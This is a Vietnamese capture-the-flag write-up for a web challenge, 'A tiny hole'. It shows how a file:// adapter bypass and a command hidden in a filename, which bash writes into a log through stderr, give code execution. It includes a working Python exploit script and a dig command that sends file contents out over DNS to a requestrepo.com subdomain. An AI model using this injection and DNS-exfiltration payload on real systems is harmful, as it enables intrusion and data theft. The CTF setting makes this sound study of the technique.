

# A tiny hole 


Đọc sơ qua source code thì mình có thể dễ dàng đoán được server sẽ thực hiện việc download script từ URL mình nhập vào và thực thi nó. Sau khi test thử một vài đường link thì mình nhận ra không thể kết nối ra bên ngoài. 

Muốn chạy được script thì mình phải bypass qua được đoạn check ở hàm `download_script` trước:

```python
def download_script(script_path, command_log, url):
	try:
		script_link = url
	except:
		return "missing url"
	r = requests.Session()
	r.mount('file://', FileAdapter())
	try:
		result = r.get(script_link)
	except:
		return "Oh no! Lost internet"
	with open(script_path, 'wb') as f:
		f.write(result.content)
		run_script(script_path, command_log)
```

Để ý thấy dòng `r.mount('file://', FileAdapter())`, mình thử nhập url là `file:///etc/passwd` thì bypass được hàm này.

Tiếp đến là hàm `run_script`:

```python
def run_script(script_path, command_log):
	lf = open(command_log, 'wb+')
	command = subprocess.Popen(['bash', script_path], stderr=lf, stdout=lf, universal_newlines=True)
	return "Run successfully"
```

Đoạn code trên sẽ chạy lệnh `bash` với file `script_path` được truyền vào, sau đó cả output lẫn error đều được ghi vào file `command_log`

Nội dung của file `script_path` được lấy từ url mình cung cấp nhưng do không thể connect ra bên ngoài nên việc chèn reverse shell vào đây là không khả thi.

Mình control được 2 param đó là `script_path` và `command_log` từ đó mình có thể lợi dụng chính lệnh `bash` để thực thi lệnh tuỳ ý.

```console
$ echo kemdau > 'date;
$ bash 'date;' 2> command_log
$ cat command_log
date;: line 1: kemdau: command not found
$ bash command_log
Thu Nov  4 02:48:02 PM +07 2021
```

Ở đây mình dùng `2>` để chuyển hướng `stderr` vào file như hàm `run_script` ở trên.

Ý tưởng của mình là tạo 1 file với tên là câu lệnh cần chạy rồi lợi dụng ghi error của lệnh `bash` vào file `command_log` và sau đó `bash command_log` là lệnh sẽ được thực thi.

***ưtf is that???***


Vậy còn lệnh `cat /flag.txt` thì sao? Tên file trong linux thì làm gì đặt được dấu `/`? Có rất nhiều cách để bypass, mình chọn encode sang `base64`.

```console
$ echo "cat /flag.txt" | base64
Y2F0IC9mbGFnLnR4dAo=
$ echo Y2F0IC9mbGFnLnR4dAo= | base64 -d | bash
cat: /flag.txt: No such file or directory
```

Nhưng không có internet thì làm sao mà gửi flag về? Với những chall kiểu như này mình sẽ thử dùng DNS để bypass.

Mình sử dụng lệnh `dig` để query và [requestrepo.com](requestrepo.com) để hứng DNS.

Và đây là payload của mình:

```console
$ dig $(echo Y2F0IC9mbGFnLnR4dAo= | base64 -d | bash).jrl0lymn.requestrepo.com
```

Còn đây là script của mình:

```python
import requests
import random
import string
from base64 import b64encode

URL = 'http://chal17.web.letspentest.org/'

def send_payload(dir, name, url, log):
    payload = {
        'script_dir': dir,
        'script_name': name,
        'script_url': url,
        'command_log_file': log
    }
    r = requests.post(URL + '/runScript', data=payload)
    print(r.text)

def randstr():
    return ''.join(random.choices(string.ascii_letters + string.digits, k=10))

core_payload = b'cat /flag.txt'
core_payload = b64encode(core_payload).decode()

dirname = randstr()

send_payload(dirname, f'\ndig $(echo {core_payload} | base64 -d | bash).jrl0lymn.requestrepo.com;', 'file:///etc/hosts', 'log')
send_payload(dirname, 'bruh', 'file:///src/logs/log.txt', 'log1')
```

Hứng DNS:



Flag: `Flag{CookieWarrior_Please_Think_Out_Of_The_Box}`